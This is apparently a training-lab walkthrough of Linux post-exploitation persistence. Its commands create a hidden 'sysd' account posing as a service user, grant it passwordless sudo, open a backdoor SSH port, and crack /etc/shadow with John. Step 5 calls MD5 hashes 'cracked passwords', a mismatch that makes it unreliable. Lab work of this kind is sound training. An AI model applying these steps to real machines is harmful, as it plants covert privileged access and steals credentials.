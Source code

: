 ## Advanced Bash: Owning the System

### Step 1: Shadow People

In this step, you'll create a "secret" user named sysd. Anyone examining /etc/passwd will assume that this is a service account, but in fact, you'll be using it to reconnect to the target machine for further exploitation.

- **Create a sysd User Without Creating a Home Folder**:

  - **Command:**
    ```
    useradd sysd
    ```

- **Set a Password for sysd**:

  - **Command:**
    ```
    passwd sysd
    ```

- **Assign a System UID Below 1000 to sysd**:

  - **Command:**
    ```
    usermod -u 400 sysd
    ```

- **Give sysd a Group ID (GID) That Matches Its UID**:

  - **Command:**
    ```
    groupmod -g 400 sysd
    ```

- **Grant sysd Full Sudo Access Without a Password**:

  - Add the following line to the `/etc/sudoers` file:
    ```
    sysd ALL=(ALL:ALL) NOPASSWD:ALL
    ```

- **Test sudo Access**:

  - Run `sudo -l` to verify that the terminal does not prompt for a password.
  - Test other commands requiring elevated privileges.

### Step 2: Smooth Sailing

In this step, you'll allow SSH access via port 2222. SSH usually runs on port 22, but opening port 2222 will allow you to log in as your secret sysd user without connecting to the standard (and well-guarded) port 22.

- **Update SSH Configuration**:
  - Open the SSH configuration file with Nano:
    ```
    sudo nano /etc/ssh/sshd_config
    ```
  - Add the following line under `Port 22` to allow SSH access via port 2222:
    ```
    Port 2222
    ```
  - **Restart SSH Service**:
    ```
    sudo systemctl restart sshd
    ```

### Step 3: Testing Your Configuration Update

- **Log Out and Test the New Backdoor SSH Port**:
  - Log out of the root account and log off the target machine.
  - From your attacking machine, SSH back into the target machine as the sysd user on port 2222:
    ```
    ssh sysd@192.168.6.105 -p 2222
    ```
  - **Switch Back to Root User**:
    ```
    sudo su
    ```

### Step 4: Crack All the Passwords

To strengthen our control of this system, we will attempt to crack as many passwords as we can.

- **Use John to Crack the Passwords in /etc/shadow**:
  - **Command:**
    ```
    john /etc/shadow
    ```

### Step 5: Matched Passwords to Users

- **Password List from Cracked /etc/shadow**:
  - **stallman**: `$1$zuzYyKCN$secHwYBXIELGqOv8rWzG00`
  - **babbage**: `$1$lGQ7QprJ$m4eE.b8jhvsp8CNbuIF5U0`
  - **mitnick**: `$1$PEDICYq8$6/U/a5Ykxw1OP0.eSrMZO0`
  - **lovelace**: `$1$Y9tp8XTi$m6pAR1bQ36oAh.At4G5s3`
  - **turing**: `$1$Qbq.XLLp$oj.BXuxR2q99bJwNEFhSH1`

**End of Advanced Bash: Owning the System**

